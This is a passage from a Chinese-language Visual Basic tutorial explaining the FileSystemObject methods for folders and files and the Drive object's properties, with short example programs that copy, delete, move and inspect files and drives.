| MoveFolder 方法 | 将一个或多个文件夹从一个地方移动到另一个地方。 |

下面我们依次对这些方法进行说明。

##### a) BuildPath 方法

该方法用于追加一个名字到一个已经存在的路径，形成一个完整的路径。它的基本形式是：`FSO 对象名.BuildPath(路径, 名字)`。使用 BuildPath 最终将返回一个字符串，这个字符串可以指示完整的路径。BuildPath 方法会在路径和名字之间插入分隔符 “\”。请看下面的代码：

```vb
Private Sub Form_Load()
    Dim Fso As Object
    Set Fso = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
    Dim NewPath As String
    NewPath = Fso.BuildPath("D:\Temp", "New2")
    MsgBox NewPath
End Sub
```

我们最终得到 NewPath 的结果将会是 “D:\Temp\New2”。但是，请注意，此方法仅用于返回一个完整路径，而指定的文件夹是否存在，是没有影响的。即使文件夹并不存在，也不会被创建。

##### b) CopyFolder 方法

该方法用于从一个地方复制一个文件夹到另一个地方。它的基本形式是：`FSO 对象名.CopyFolder 源文件夹, 目的文件夹, [覆盖]`。这里参数“覆盖”的值可以是 True 或者 False，若为 True，当目的文件夹已经存在时，则覆盖之，默认为 True。请看下面的例子：

```vb
Fso.CopyFolder "D:\Temp3", "D:\Temp4"
```

这样就可以将 D:\Temp3 复制到 D:\Temp4，包括 D:\Temp3 下的所有文件和子文件夹。如果文件夹 D:\Temp4 已经存在，而我们在复制的时候将参数“覆盖”设置成 False，则会出错，使用下面的代码：


图 2-44 不允许覆盖文件夹时出错

```vb
Fso.CopyFolder "D:\Temp3", "D:\Temp4", False
```

运行后错误提示如图 2-44 所示。

##### c) CreateFolder 方法

该方法用于创建一个文件夹。其基本形式是：`FSO 对象名.CreateFolder(文件夹路径)`。如果指定的文件夹已经存在，则发生错误。例如，我们来创建 D:\Temp3 这个文件夹，就可以使用代码：

```vb
Fso.CreateFolder "D:\Temp3"
```

该方法的返回值是一个文件夹对象，为了说明这一点，请看我写的代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")
Dim TempFolder As Object
Set TempFolder = Fso.CreateFolder("D:\Temp3")
MsgBox TempFolder.Name
```

- 声明一个对象引用类型的变量 FSO
- 创建 FSO 对象
- 声明一个对象引用类型变量 TempFolder
- 创建文件夹并返回给 TempFolder 变量
- 获取 TempFolder 的 Name 属性

运行上面的代码，最终得到的结果是 Temp3，成功获取了文件夹的 Name 属性。

> 注意：在对一个对象建立引用时，一定不要忘了 “Set” 关键字。

##### d) DeleteFolder 方法

该方法用于删除一个文件夹和文件夹中的内容。它的基本形式是：`FSO 对象名.DeleteFolder 文件夹路径[, 强制]`。这里，参数“强制”是可选的，它表明当文件夹是只读属性时，是否也删除之。如果参数“强制”的值为 True，那么就算文件夹的属性是只读，也会被删除。当“强制”的值为 False 时，无法删除拥有只读属性的文件夹。参数“强制”的默认值是 False。下面我们来删除 D:\Temp3 这个文件夹：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")
Fso.DeleteFolder "D:\Temp3"            ' 删除 D:\Temp3
```

> 说明：DeleteFolder 方法对文件夹中有无内容不作区别，不管指定的文件夹中是否有内容，它都会被删除。如果没有发现相匹配的文件夹，则发生一个错误。也就是说，需要删除的这个文件夹应当是存在的。

##### e) FolderExists 方法

该方法用于判断某个指定的文件夹是否存在，若存在，返回 True，否则返回 False。它的基本形式是：`FSO 对象名.FolderExists(文件夹路径)`。下面，我们来判断 D:\Temp3 这个文件夹是否存在：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")      ' 建立 FSO 对象
If Fso.FolderExists("D:\Temp3") Then                      ' 如果文件夹存在，则提示
    MsgBox "D:\Temp3 文件夹存在"
Else
    MsgBox "D:\Temp3 文件夹不存在"
End If
```

##### f) GetFolder 方法

该方法用于返回一个和指定路径中文件夹相对应的 Folder 对象。它的基本形式是：`FSO 对象名.GetFolder(文件夹路径)`，返回值是文件夹对象。如果指定的文件夹不存在，则会发生一个错误。下面示例返回 D:\Temp 这个文件夹到 MyFolder 变量中，并获取该 Folder 对象的 Size 属性：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")         ' 创建 FSO 对象
Dim MyFolder As Object
Set MyFolder = Fso.GetFolder("D:\Temp")                      ' 返回 D:\Temp 文件夹对象到变量 MyFolder
MsgBox "D:\Temp 文件夹的大小是 " & MyFolder.Size & " byte"   ' 获取文件夹对象的 Size 属性
```

##### g) GetParentFolderName 方法

该方法用于返回一个包含指定路径最后部件父文件夹名字的字符串。它的基本形式是：`FSO 对象名.GetParentFolderName(路径)`。如果路径参数指定的部件没有父文件夹，则 GetParentFolderName 方法返回一个零长度字符串（`""`），也就是空字符串。例如，我们返回 D:\Temp 的父文件夹，最终结果就将是 D:\；而如果我们返回 D:\ 的父文件夹，由于它没有父文件夹了，所以会返回一个空字符串。请看下面的例子：

```vb
MsgBox Fso.GetParentFolderName("D:\Temp")    ' 最终返回 D:\
MsgBox Fso.GetParentFolderName("D:\")        ' 最终返回空字符串
```

请读者朋友们注意，这里参数路径所指定的文件夹可以是不存在的，也就是说，此方法只根据你提供的地址返回父文件夹，而不会检查所指定的文件夹是否存在。

##### h) GetSpecialFolder 方法

该方法可以返回指定的特殊文件夹。那什么是特殊文件夹呢？这里所指的特殊文件夹包括 Windows 文件夹、系统文件夹和 Temp 文件夹。该方法的基本形式是：`FSO 对象名.GetSpecialFolder(特殊文件夹常数)`。特殊文件夹常数可以设置成下面的值：

| 常数 | 值 | 描述 |
|---|---:|---|
| WindowsFolder | 0 | Windows 文件夹，包含由 Windows 操作系统安装的文件。 |
| SystemFolder | 1 | 系统文件夹，包含库、字体、设备驱动程序。 |
| TemporaryFolder | 2 | Temp 文件夹，用于存储临时文件。它的路径在 TMP 环境变量中。 |

例如，我们需要得到 Windows 文件夹，就可以写入下面的代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")
MsgBox Fso.GetSpecialFolder(WindowsFolder)    ' 返回 Windows 文件夹
```

上面的代码运行后如图 2-45 所示，可以正确地返回 Windows 所在路径。获取其他两个文件夹的方法与此类似。这里我们不光可以使用常数名，也可以直接使用常数。例如，获取 Windows 文件夹就可以使用 `Fso.GetSpecialFolder(0)`。

##### i) MoveFolder 方法

该方法可以移动文件夹到另一个位置。它的基本形式是：`FSO 对象名.MoveFolder 源文件夹路径, 目的路径`。例如，我们需要将 `D:\Temp2` 这个文件夹移动到 `D:\Temp` 下面，就可以使用代码：`Fso.MoveFolder "D:\Temp2", "D:\Temp\Temp2"`。

## 3. 对文件的操作

FileSystemObject 对象可以很容易地对文件进行操作，它提供了较多的方法。请参考下面的列表：

| 方法名 | 功能 |
|---|---|
| CopyFile 方法 | 把一个或多个文件从一个地方复制到另一个地方。 |
| CreateTextFile 方法 | 创建一个文件并返回一个用于该文件读写的 TextStream 对象。 |
| DeleteFile 方法 | 删除一个指定的文件。 |
| FileExists 方法 | 判断指定的文件是否存在。 |
| GetFile 方法 | 返回一个和指定路径中文件相对应的 File 对象。 |
| GetBaseName 方法 | 返回一个包含路径中最后部件的基本名字（去掉任何文件扩展名）的字符串。 |
| GetExtensionName 方法 | 返回一个包含路径中最后部件扩展名的字符串。 |
| GetFileName 方法 | 返回指定路径中的最后部件，该路径不是驱动器说明的一部分。 |
| GetTempName 方法 | 返回一个随机产生的临时文件或文件夹名字，该名字在执行需要临时文件或文件夹操作时有用。 |
| MoveFile 方法 | 将一个或多个文件从一个地方移动到另一个地方。 |
| OpenTextFile 方法 | 打开一个指定的文件并返回一个 TextStream 对象，该对象可用于对文件进行读操作或追加操作。 |

下面我们依次对这些方法进行说明。

##### a) CopyFile 方法

该方法用于把文件从一个地方复制到另一个地方。它的基本形式是：`FSO 对象名.CopyFile 源文件路径, 目标文件路径[, 覆盖]`。例如，我们需要将 `D:\Temp\Test.txt` 这个文件复制到 `D:\Temp2\test.txt`，就可以写入代码：`Fso.CopyFile "D:\Temp\Test.txt", "D:\Temp2\test.txt"`。

CopyFile 方法还可以在参数源文件地址中支持通配符。通配符只能用在源文件路径参数的最后一个路径部件。例如，你可以在下面情况使用通配符：`FSO.CopyFile "c:\mydocuments\letters\*.doc", "c:\tempfolder\"`，但下面的形式是不能使用的：`FSO.CopyFile "c:\mydocuments\*\R1???97.xls", "c:\tempfolder"`。也就是说，通配符只能在源文件路径的最后一部分。如果我们想把 `D:\Temp` 路径下的所有 Txt 文件复制到 `D:\Temp2` 文件夹中，则使用下面的代码：`Fso.CopyFile "D:\Temp\*.txt", "D:\Temp2\"`。在第一章中我们有介绍通配符的使用，大家可以尝试使用“?”来进行匹配。

> **提示：** 请注意，在使用通配符时，至少应该有一个文件是满足匹配条件的，否则会出现错误提示“文件未找到”。

##### b) CreateTextFile 方法

该方法用于创建一个指定的文件，并且返回一个用于该文件读写的 TextStream 对象。它的基本形式是：`FSO 对象名.CreateTextFile(文件路径[, 覆盖[, Unicode]])`。其中参数“文件路径”表明需要被创建的文件的路径。参数“覆盖”是可选的，它是一个 Boolean 值，表示一个已存在的文件是否可被覆盖。如果其值为 True 就可被覆盖，其值为 False 时则不能覆盖。其默认值是 False，如果它被省略，则已存在文件不能被覆盖。参数“Unicode”是一个可选参数，它同样是 Boolean 值，表示文件是作为一个 Unicode 文件创建的还是作为一个 ASCII 文件来创建。如果作为一个 Unicode 文件创建，其值为 True；作为一个 ASCII 文件创建，其值为 False。如果省略该参数，则默认为一个 ASCII 文件。这里只是设定文件的编码方式，普通的文本文件以 ASCII 编码即可。下面示例建立 `D:\Temp\New.txt` 文件，并写入一行文字“Just a test.”。

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")
Dim NewFile As Object
' 创建文件并返回 TextStream 对象到 NewFile 变量中
Set NewFile = Fso.CreateTextFile("D:\Temp\New.txt", True)
NewFile.WriteLine "Just a test."
NewFile.Close
```

运行上面的代码，我们会发现 `D:\Temp` 目录下多了一个 `New.txt`。使用记事本打开该文件，能看到内容已经被成功写入。

> **提示：** 在上面的代码中，我们返回了一个 TextStream 对象，并使用它的 WriteLine 方法写入了一行文字，此处大家可能并不熟悉它的用法，在后面介绍 TextStream 时将会有详细介绍，读者朋友们可暂不深究。

##### c) DeleteFile 方法

该方法用于删除一个指定路径的文件。它的基本形式是：`FSO 对象名.DeleteFile 文件路径[, 强制]`。这里参数“强制”是可选的，它表明当文件是只读文件时，是否也将其删除。如果它的值被设置成 True，那么就算是只读文件也会被删除；当它的值是 False 时，不会删除只读文件。默认情况下，该参数的值是 False。下面我们来删除之前的文件 `D:\Temp\New.txt`，使用代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")  ' 创建 Fso 对象
Fso.DeleteFile "D:\Temp\New.txt"                      ' 删除文件
```

如果我们没有将参数“强制”的值设置成 True 而尝试去删除只读文件，则会出错，提示为“权限被拒绝”，如图 2-46 所示。

换用下面的代码即可删除：`Fso.DeleteFile "D:\Temp\New.txt", True`。

如果我们在代码中需要删除的文件不存在，则会发生一个错误。另外，本方法中的路径参数是支持通配符的。例如，我们来删除 `D:\Temp` 下的所有 Txt 文件，使用代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")  ' 创建 Fso 对象
Fso.DeleteFile "D:\Temp\*.txt"                        ' 删除所有 Txt 文件
```

##### d) FileExists 方法

该方法用于判断指定的文件是否存在，跟 FolderExists 方法是很类似的，只不过一个是用于文件夹，一个是用于文件。它的基本形式是：`FSO 对象名.FileExists(文件路径)`。该方法的返回值是一个 Boolean 值，如果文件存在，返回 True，不存在则返回 False。如果需要判断 `D:\1.txt` 文件是否存在，则使用代码：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")  ' 创建 Fso 对象
If Fso.FileExists("D:\1.txt") Then                    ' 如果文件存在，则给出提示
    MsgBox "D:\1.txt 文件存在"
Else
    MsgBox "D:\1.txt 文件不存在"
End If
```

##### e) GetFile 方法

该方法可以返回一个指定路径的文件（File）对象。它的基本形式是：`FSO 对象名.GetFile(文件路径)`。虽然我们还没有介绍文件对象的诸多属性和方法，但也可以简单示例说明其用法：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")      ' 创建 Fso 对象
Dim MyFile As Object                                       ' 对象引用类型变量 MyFile
Set MyFile = Fso.GetFile("D:\1.txt")                      ' 返回文件对象到变量 MyFile
MsgBox "文件 D:\1.txt 的大小是 " & MyFile.Size & " Byte"  ' 获取文件的大小，即 Size
```

运行结果如图 2-47 所示。上面的代码中，我们首先返回一个与 `D:\1.txt` 对应的文件对象到变量 `MyFile` 中，然后获取了这个文件对象所指定文件的 `Size` 属性。使用方式：对象名.属性。

##### f) GetBaseName 方法

该方法用于返回一个包含路径中最后部件的基本名字（去掉任何文件扩展名）的字符串。它的基本形式是：`FSO 对象名.GetBaseName(文件路径)`。例如，下面的代码将返回“黑客手册”，而不会包括其扩展名：`MsgBox Fso.GetBaseName("D:\黑客手册.rar")`。

> 注意：①如果没有部件和文件路径参数匹配，GetBaseName 方法将返回一个长度为零的字符串（""）。例如下面的代码：`MsgBox Fso.GetBaseName("D:\")`，这里因为没有文件名，就无法匹配。②GetBaseName 方法只对提供的 path 字符串起作用。它既不试图去辨识路径，也不检查指定路径是否存在。也就是说，你指定的文件可能并不存在，但 GetBaseName 方法可以成功返回文件的基本名。

##### g) GetExtensionName 方法

该方法用于返回文件的扩展名。它的基本形式是：`FSO 对象名.GetExtensionName(文件路径)`。请注意，对于多重扩展名的文件，该方法只获取其最后一重扩展名，也就是其实际的扩展名。例如：文件 `D:\1.txt.asp.jpg`，获取的最终结果将是 `jpg`，不会是 `txt`，也不会是 `asp`。简单举例说明用法：`MsgBox Fso.GetExtensionName("D:\1.txt")`。上面的代码得到的结果是“txt”。注意，如果没有部件和文件路径参数相匹配，GetExtensionName 方法将返回一个长度为零的字符串（""）。

##### h) GetFileName 方法

该方法返回指定路径中的最后部件，该路径不是驱动器说明的一部分。它的基本形式是：`FSO 对象名.GetFileName(文件路径)`。下面的代码将返回 `1.txt`：

```vb
MsgBox Fso.GetFileName("D:\Temp\1.txt")
```

> 注意：①如果参数文件路径不是以文件名结尾，GetFileName 方法将返回一个零长度字符串（""）。②GetFileName 方法仅在提供的路径字符串上起作用，它没有尝试去辨识路径，也不对指定路径是否存在进行检查。

##### i) GetTempName 方法

该方法用于返回一个随机产生的临时文件或文件夹的名字，该名字在执行需要临时文件或文件夹的操作时有用。它的基本形式是：`FSO 对象名.GetTempName`。返回值是以 `.tmp` 结尾的一个随机文件名。每次使用该方法返回的都是一个可用的随机文件名，但是它的值是变化的。例如：`MsgBox Fso.GetTempName`。代码运行后如图 2-48 所示。

##### j) MoveFile 方法

该方法用于移动文件。它的基本形式是：`FSO 对象名.MoveFile 源文件路径, 目标文件路径`。下面的代码将 `D:\1.txt` 移动到 `D:\Temp\1.txt`：

```vb
Dim Fso As Object
Set Fso = CreateObject("scripting.filesystemobject")
Fso.MoveFile "D:\1.txt", "D:\Temp\1.txt"
```

MoveFile 方法是支持通配符的。例如，我们要把 `D:\Temp` 文件夹中的所有 `txt` 文件移动到 `D:\Temp2` 中，使用代码：`Fso.MoveFile "D:\Temp\*.txt", "D:\Temp2\"`。这里使用了多字符通配符“*”，请注意，第二个参数“目标文件路径”中，只需要写入文件夹的路径即可。如果在源文件路径中使用了通配符，但是没一个文件满足匹配条件的话，那么会出现一个错误。例如，在运行上面的代码时，`D:\Temp` 文件夹中根本不存在 `txt` 文件，则会提示“文件未找到”。

##### k) OpenTextFile 方法

该方法用于打开一个指定的文件并返回一个 TextStream 对象，该对象可用于对文件进行读操作或追加操作。可以看出，CreateTextFile 方法是创建文件并返回 TextStream 对象，而 OpenTextFile 方法则是打开文件并返回 TextStream 对象。OpenTextFile 方法的基本形式是：`FSO 对象名.OpenTextFile(filename[, iomode[, create[, format]]])`。下面对其中的各个参数进行说明：

| 参数 | 描述 |
|---|---|
| FSO 对象名 | 必需的。始终是一个 FileSystemObject 的名字。 |
| filename | 必需的。字符串表达式。它标识了打开的文件。 |
| iomode | 可选的。表示输入/输出方式。可为两个常数之一：ForReading 或 ForAppending。 |
| create | 可选的。Boolean 值。它表示如果指定的 filename 不存在是否可以创建一个新文件。如果创建新文件，其值为 True。若不创建文件其值为 False，缺省值为 False。 |
| format | 可选的。三种 Tristate 值之一，用于指示打开文件的格式。如果省略，则文件以 ASCII 格式打开。 |

`iomode` 参数可为下面设置值的任何一个：

| 常数 | 值 | 描述 |
|---|---:|---|
| ForReading | 1 | 打开一个只读文件，不能对此文件进行写操作。 |
| ForAppending | 8 | 打开一个文件并写到文件的尾部。 |

`format` 参数可为下面设置值的任何一个：

| 常数 | 值 | 描述 |
|---|---:|---|
| TristateUseDefault | -2 | 使用系统缺省格式打开文件。 |
| TristateTrue | -1 | 以 Unicode 格式打开文件。 |
| TristateFalse | 0 | 以 ASCII 格式打开文件。 |

下面的代码举例说明了使用 OpenTextFile 方法打开一个用于追加文本的文件：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")
' 打开文件追加内容，返回 TextStream 对象到变量 MyFile
Set MyFile = Fso.OpenTextFile("D:\Temp2\1.txt", 8, False)
MyFile.Write "Hello world!"
MyFile.Close
```

在上面的代码中，打开文件时参数 `iomode` 我们使用了常数 8，也就是 `ForAppending`，它的意思是打开文件并追加内容。而参数 `create` 设置成了 False，也就是说如果文件不存在，是不会被创建的，而是提示“文件未找到”。以上代码使用了 TextStream 对象的 Write 方法写入文件，这在后面的内容中会有详细介绍。

读者朋友们，到此我们对 FileSystemObject 对象的文件操作部分也介绍完了。使用 FileSystemObject 对象进行编程是非常方便的，它的功能也较多。其实很多时候，我们利用 Drive（驱动器）对象、Folder（文件夹）对象、File（文件）对象，都可以实现与 FileSystemObject 对象类似的功能，它们是相通的。下面的内容就是依次介绍 FSO 模型的其他三个对象：Drive、Folder、File。

### 2.4.3 Drive 对象

Drive 对象可以对“特定磁盘驱动器或网络共享”的属性提供访问。通过该对象，我们可以很容易地获取到磁盘信息。所谓的磁盘驱动器，包括了软盘、硬盘、光驱等。Drive 对象有着一系列属性，请参考下面的表格：

| 属性名称 | 功能描述 |
|---|---|
| AvailableSpace 属性 | 返回在指定的驱动器或网络共享上的用户可用空间容量。 |
| DriveLetter 属性 | 返回某个物理本地驱动器或网络共享的驱动器字母。只读。 |
| DriveType 属性 | 返回一个值，表示指定驱动器的类型。 |
| FileSystem 属性 | 返回指定驱动器所使用的文件系统类型。 |
| FreeSpace 属性 | 返回指定驱动器上或网络共享的用户可用磁盘剩余空间容量。只读。 |
| IsReady 属性 | 如果指定的驱动器已准备好，返回 True，否则返回 False。 |
| Path 属性 | 返回指定文件、文件夹或驱动器的路径。 |
| RootFolder 属性 | 返回一个 Folder 对象，该对象表示一个指定驱动器的根文件夹。只读属性。 |
| SerialNumber 属性 | 返回用于唯一标识磁盘卷标的十进制序列号。 |
| ShareName 属性 | 返回指定驱动器的网络共享名。 |
| TotalSize 属性 | 以字节为单位，返回驱动器或网络共享的总空间大小。 |
| VolumeName 属性 | 设置或返回指定驱动器的卷标名。读/写属性。 |

下面我们对上述属性分别做简单介绍。在获取一个 Drive 磁盘对象时，我们应该使用 FileSystemObject 对象的 GetDrive 方法来返回。

#### a) AvailableSpace 属性

该属性用于返回在指定的驱动器或网络共享上用户可以使用的空间容量。请注意，这里返回的是字节数，也就是以 Byte 作为单位的，我们可以将其转换为 GB。下面示例获取当前用户在 D 盘上的可用剩余磁盘容量：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")
Set MyDrive = Fso.getdrive("D:")
' 返回 AvailableSpace 属性的值，转换为 GB
MsgBox "大哥你还有" & Int(MyDrive.AvailableSpace / 1024 / 1024 / 1024) & "GB可用"
```

上面的代码运行后如图 2-49 所示。该属性的返回值是以 Byte 为单位的，除以 1024 则为 KB，再除以 1024 则为 MB，再除以 1024 则为 GB。所以，上面的代码中我们除以了 3 个 1024。


#### b) DriveLetter 属性

该属性可以返回某个物理本地驱动器或网络共享的驱动器字母。它只返回一个字符。例如，下面的代码将只返回“D”。

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyDrive = Fso.getdrive("D:")                        ' 获取Drive对象
MsgBox MyDrive.DriveLetter                              ' 返回DriveLetter属性的值
```

> 注意：如果指定的驱动器没有同某个驱动器字母关联起来，例如，未被映射到一个驱动器字母的网络共享，则 DriveLetter 属性返回一个 0 字节长度的字符串（""）。

#### c) DriveType 属性

该属性用于返回一个值，表示指定驱动器的类型。该属性可以返回下列的值：

| 返回值 | 驱动器类型 |
|---|---|
| 0 | 未知类型驱动器 (Unknown) |
| 1 | 可删除驱动器 (Removable) |
| 2 | 物理连接的固定驱动器 (Fixed) |
| 3 | 网络驱动器 (Network) |
| 4 | 光驱 (CD-ROM) |
| 5 | RAM 驱动器 (RAM Disk) |

下面我们示例获取 G 盘的驱动器类型：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")      ' 创建FSO对象
Set MyDrive = Fso.getdrive("G:")                          ' 返回驱动器对象
Dim MyDriveType As String                                  ' 保存驱动器类型的字符串
Select Case MyDrive.DriveType                              ' 下面对DriveType属性返回值进行选择
    Case 0: MyDriveType = "Unknown"
    Case 1: MyDriveType = "Removable"
    Case 2: MyDriveType = "Fixed"
    Case 3: MyDriveType = "Network"
    Case 4: MyDriveType = "CD-ROM"
    Case 5: MyDriveType = "RAM Disk"
End Select
MsgBox MyDriveType                                          ' 提示G盘的驱动器类型
```


运行上面的程序，结果如图 2-50 所示。

#### d) FileSystem 属性

该属性用于返回指定驱动器所使用的文件系统类型。例如，我们需要得到 D 盘的磁盘信息。

#### e) FreeSpace 属性

返回指定驱动器上或网络共享的用户可用磁盘剩余空间容量。例如，我们需要获取 D 盘的可用剩余容量，可以使用：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")   ' 创建FSO对象
Set MyDrive = Fso.getdrive("D:")                       ' 返回磁盘对象
MsgBox MyDrive.FreeSpace                               ' 获取磁盘剩余空间容量
```

> 提示：一般来说，FreeSpace 属性的返回值和 AvailableSpace 属性的返回值是相同的。对于支持限额的计算机系统来说，二者之间可能有所不同。

这里返回值同样是以 Byte 为单位的。

#### f) IsReady 属性

该属性用于返回驱动器是否已准备好。例如，软驱中是否已插入软盘，光驱中是否已插入光盘。下面示例来判断光驱 G 中是否已插入了光盘：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建 FSO 对象
Set MyDrive = Fso.getdrive("G:")                        ' 返回驱动器对象
If MyDrive.IsReady Then                                  ' 如果已准备好
    MsgBox "你已经插入了光盘"
Else
    MsgBox "你还没有插入光盘"
End If
```

光驱中尽管没有插入光盘，但这个盘符是存在的。所以我们在对光驱进行某些操作时，可以事先判断是否已经准备好，避免出错。

#### g) Path 属性

该属性用于返回指定文件、文件夹或驱动器的路径。驱动器对象同样拥有该属性。它的使用很简单，不再示例。

#### h) RootFolder 属性

该属性用于返回一个 Folder 对象，该对象表示一个指定驱动器的根文件夹，它是一个只读属性。

#### i) SerialNumber 属性

该属性用于返回唯一标识磁盘卷标的十进制序列号，例如我们来获取 D 盘的序列号：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")
Set MyDrive = Fso.getdrive("D:")
MsgBox MyDrive.SerialNumber    ' 返回磁盘序列号
```


运行后如图 2-51 所示。

这个属性在一些加密程序中有使用到。通过获取 U 盘的序列号，然后再通过该序列号加密即可。

#### j) ShareName 属性

该属性用于返回指定驱动器的网络共享名。请注意，如果对象不是一个网络驱动器，则 ShareName 属性返回一个 0 字节长度的字符串（""）。

#### k) TotalSize 属性

该属性以字节为单位，返回驱动器或网络共享的总空间大小。例如，我的计算机上 D 盘是 162GB，我们来获取它的 TotalSize 属性对比一下：

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyDrive = Fso.getdrive("D:")                        ' 返回驱动器对象
MsgBox "D盘的总大小是" & MyDrive.TotalSize / 1024 / 1024 / 1024 & " GB"   ' 提示大小
```


图 2-52 获取磁盘的总大小

运行后如图 2-52 所示。

#### l) VolumeName 属性

该属性设置或返回指定驱动器的卷标名，既可读又可写。当写入卷标名时候，基本形式是：驱动器对象名.VolumeName = 新的名字。例如，我这里有一个 U 盘，它的名字是“冰域剑客2”，现在我来将它改为“黑客手册”：


图 2-53 修改驱动器的卷标名

```vb
Dim Fso As Object, MyDrive As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyDrive = Fso.getdrive("H:")                        ' 返回驱动器对象
MyDrive.VolumeName = "黑客手册"                         ' 更改卷标名为“黑客手册”
```

运行上面的代码，再打开“我的电脑”，可以看到 H 盘的卷标名已经修改成功，如图 2-53 所示。

如果只是取得卷标名，而不作修改，则可以使用类似下面的代码：

```vb
MsgBox MyDrive.VolumeName   ' 返回卷标名
```

到此，我们对驱动器对象的介绍就结束了。

### 2.4.4 Folder 对象和 File 对象

通过了解 FSO 模型中的 Folder 对象和 File 对象，可以进一步了解并熟悉对文件夹和文件的操作。因为文件夹 Folder 对象和 File 文件对象有诸多共同的属性，因此我们将其联合起来进行介绍。它们的共同属性请参看下面的表格：

| 属性名 | 功能描述 |
|---|---|
| Attributes 属性 | 设置或返回文件或文件夹的属性。读/写或只读，取决于属性。 |
| DateCreated 属性 | 返回指定文件或文件夹的创建日期和时间。只读。 |
| DateLastAccessed 属性 | 返回最后一次访问指定文件或文件夹的日期和时间。只读。 |
| DateLastModified 属性 | 返回最后一次修改指定文件或文件夹的日期和时间。只读。 |
| Drive 属性 | 返回指定文件或文件夹所在的驱动器符号。只读。 |
| Name 属性 | 设置或返回指定文件或文件夹名。读/写属性。 |
| ShortName 属性 | 返回需要较早的 8.3 命名约定的程序所使用的短名字。 |
| ParentFolder 属性 | 返回指定文件或文件夹的父文件夹对象。只读。 |
| Path 属性 | 返回指定文件或文件夹的路径。 |
| ShortPath 属性 | 返回需要较早的 8.3 文件命名约定的程序所使用的短路径。 |
| Size 属性 | 对于文件来说，返回以字节为单位的指定文件大小。对于文件夹来说，返回以字节为单位的包含在文件夹中所有文件和子文件夹的大小。 |
| Type 属性 | 返回关于某个文件或文件夹类型的信息。例如，对以 .TXT 结尾的文件返回 "Text Document"。 |

#### a) Attributes 属性

该属性用于设置或者返回文件或文件夹的属性。它可能是可读可写，也可能是只读的，这取决于属性。当对一个文件或文件夹设置属性时，它的基本形式是：文件夹对象名或文件对象名.Attributes [= 新的属性]。当我们需要判断一个文件或文件夹是否具有某项属性值时，应该把该 Attributes 属性的返回值与下列常数做 And 逻辑运算：

| 常数 | 值 | 描述 |
|---|---:|---|
| Normal | 0 | 一般文件。未设置属性。 |
| ReadOnly | 1 | 只读文件。属性为读/写。 |
| Hidden | 2 | 隐藏文件。属性为读/写。 |
| System | 4 | 系统文件。属性为读/写。 |
| Volume | 8 | 磁盘驱动器卷标。属性为只读。 |
| Directory | 16 | 文件夹或目录。属性为只读。 |
| Archive | 32 | 自上次备份后已经改变的文件。属性为读/写。 |
| Alias | 64 | 链接或快捷方式。属性为只读。 |
| Compressed | 128 | 压缩文件。属性为只读。 |

例如，我们需要判断 D:\Temp2\1.txt 这个文件是否具有只读属性，就可以使用下面的代码：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyFile = Fso.getfile("D:\Temp2\1.txt")              ' 返回文件对象
If MyFile.Attributes And vbReadOnly Then                ' 如果具有只读属性，则提示
    MsgBox "该文件只读"
Else
    MsgBox "该文件不是只读的"
End If
```

这样就可以获取到文件的属性了。如果 Attributes 属性返回值同 vbReadOnly 做逻辑 And 运算，返回结果为 True，则表明它具有只读属性，否则就不具有。需要注意的是，上面的常数在使用时，请在名称前面加“vb”关键字，否则会出现错误。例如 ReadOnly 常数，就应当写成 vbReadOnly，否则，程序不能识别该常数，而是把它默认为一个隐式的变量来运算了。下面示例来取消文件 D:\Temp2\1.txt 的只读属性：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyFile = Fso.getfile("D:\Temp2\1.txt")              ' 返回文件对象
MyFile.Attributes = MyFile.Attributes - vbReadOnly      ' 取消其只读属性
```

上面的代码中，我们在原来的 Attributes 属性基础上减去 vbReadOnly 常数，就取消了它的只读属性。同理，我们还可以取消或设置它的其他属性。使用加法运算就可以设置某项属性。例如要增加只读属性，则可以写入代码：

```vb
MyFile.Attributes = MyFile.Attributes + vbReadOnly
```

聪明的读者朋友们，相信其它的属性你们也知道怎样设置和取消了。

#### b) DateCreated 属性

文件 D:\Temp2\1.txt 的创建日期和时间：

```vb
Dim Fso As Object, MyFile As Object
Set Fso = CreateObject("Scripting.FileSystemObject")    ' 创建FSO对象
Set MyFile = Fso.getfile("D:\Temp2\1.txt")              ' 返回文件对象
MsgBox MyFile.DateCreated                                ' 得到创建日期和时间
```

上面的代码运行后如图 2-54 所示，日期时间格式也请大家参考下图。


- **c) DateLastAccessed 属性**  
  该属性用于返回最后一次访问指定文件或文件夹的日期和时间，是一个只读属性。

> 注意：这种方法由其下一级操作系统决定其行为。如果操作系统不支持提供时间信息，则没有返回信息。

- **d) DateLastModified 属性**  
  该属性返回最后一次修改指定文件或文件夹的日期和时间。它同样是一个只读属性。

- **e) Drive 属性**  
  该属性用于返回指定文件或文件夹所在的驱动器符号。它是只读的。

- **f) Name 属性**  
